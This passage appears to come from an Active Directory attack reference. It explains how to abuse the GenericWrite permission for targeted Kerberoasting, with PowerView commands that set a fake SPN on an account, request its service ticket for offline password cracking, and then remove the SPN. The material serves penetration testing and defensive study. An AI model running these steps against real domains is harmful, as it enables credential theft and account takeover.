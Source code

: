 ### User
ForceChangePassword

### Group
AddMember

### Computer
AddAllowedToAct

## GenericWrite
With GenericWrite it is possible to overwrite attributes of the target object.
The procedure differs depending on the type of the target node:

### User
As an attacker, GenericWrite can be used to set a new SPN on the target account.
By setting an SPN, a kerberoast attack is possible.
In this case, such an action is called Targeted Kerberoasting.
This attack can be implemented with the help of Powerview.
Check already existing SPN value:

```
PS> Get-DomainObject -Identity machineAccount05 -Properties serviceprincipalname
```

Then set a new SPN value:

```
PS> Set-DomainObject -Identity <targetAccount> -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
```

A service ticket is then requested for the SPN that has just been set:

```
PS> Get-DomainSPNTicket <targetAccount> | fl
```

The password hash from the target account can then be cracked offline using the service ticket.
Finally, the SPN must be removed again (if there where no previous SPN):

```
PS> Set-DomainObject -Identity <targetAccount> -Clear serviceprincipalname
```

### Group
AddMember

### Computer
AddAllowedToAct

## GenericAll
This edge indicates that the source node has full permission on the destination node.
The usage of this edge differs depending on the type of the destination node.
